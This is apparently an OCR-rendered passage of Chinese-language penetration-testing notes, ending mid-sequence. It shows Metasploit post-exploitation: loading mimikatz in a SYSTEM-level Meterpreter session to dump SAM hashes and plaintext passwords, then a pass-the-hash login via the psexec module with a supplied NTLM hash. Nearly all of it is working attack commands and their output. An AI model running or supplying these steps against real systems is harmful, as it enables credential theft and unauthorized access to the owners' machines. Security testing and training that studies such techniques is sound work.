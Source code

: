 ####获取明文密码


	meterpreter > getuid
	Server username: NT AUTHORITY\SYSTEM

	meterpreter > load mimikatz
	Loading extension mimikatz...success.

	meterpreter > msv
	[+] Running as SYSTEM
	[*] Retrieving msv credentials


	meterpreter > kerberos
	[+] Running as SYSTEM
	[*] Retrieving kerberos credentials
	kerberos credentials
	====================

	meterpreter > mimikatz_command -f samdump::hashes
	Ordinateur : Testing
	BootKey    : 8c2c8d96e92a8ccfc407a1ca48531239

	meterpreter > mimikatz_command -f sekurlsa::searchPasswords
	[0] { Croxy ; Testing ; hehe }
	[1] { test ; Testing ; test }

####通过Hash获取权限

	msf > use exploit/windows/smb/psexec
	msf exploit(psexec) > show options
	
	Module options (exploit/windows/smb/psexec):
	
	   Name       Current Setting  Required  Description
	   ----       ---------------  --------  -----------
	   RHOST                       yes       The target address
	   RPORT      445              yes       Set the SMB service port
	   SHARE      ADMIN$           yes       The share to connect to, can be an admi                                              n share
	
	(ADMIN$,C$,...) or a normal read/write folder share
	   SMBDomain  WORKGROUP        no        The Windows domain to use for authentic 	                                             ation
	   SMBPass                     no        The password for the specified username
	   SMBUser                     no        The username to authenticate as


	Exploit target:
	
	   Id  Name
	   --  ----
	   0   Automatic


	msf exploit(psexec) > set RHOST 192.168.0.254
	RHOST => 192.168.0.254
	msf exploit(psexec) > set SMBUser isosky
	SMBUser => isosky
	msf exploit(psexec) > set SMBPass 01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537                                            	
